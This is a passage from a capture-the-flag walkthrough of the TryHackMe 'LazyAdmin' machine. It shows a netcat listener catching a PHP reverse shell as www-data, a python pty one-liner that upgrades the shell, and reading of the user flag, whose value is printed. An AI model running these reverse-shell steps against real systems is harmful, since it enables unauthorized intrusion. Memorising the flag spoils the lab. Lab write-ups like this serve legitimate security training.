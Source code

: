 <p align="center"><img src="files/revShell.png"></p>

Now open a listener (`rlwrap nc -lvnp 4444`) and call the shell from `http://<MACHINE IP>/content/inc/ads/<SHELLNAME>.php`. Now if you have done everything correctly, you should have a shell as `www-data`. The first thing I did, was spawning a TTY shell using a python one-liner:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/LazyAdmin/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.**.**] from (UNKNOWN) [10.10.208.146] 42688
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 10:03:00 up  1:43,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ which python
/usr/bin/python
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@THM-Chal:/$ 
~~~

## User Flag

Now that we have a shell, we can start looking for the flags. If you list `/home` directory, you can see the only user on the machine: `itguy`. We can find the user flag in this user's home directory:

~~~
www-data@THM-Chal:/$ ls /home
itguy
www-data@THM-Chal:/$ cd /home/itguy
www-data@THM-Chal:/home/itguy$ ls
Desktop    Downloads  Pictures	Templates  backup.pl	     mysql_login.txt
Documents  Music      Public	Videos	   examples.desktop  user.txt
www-data@THM-Chal:/home/itguy$ cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
~~~
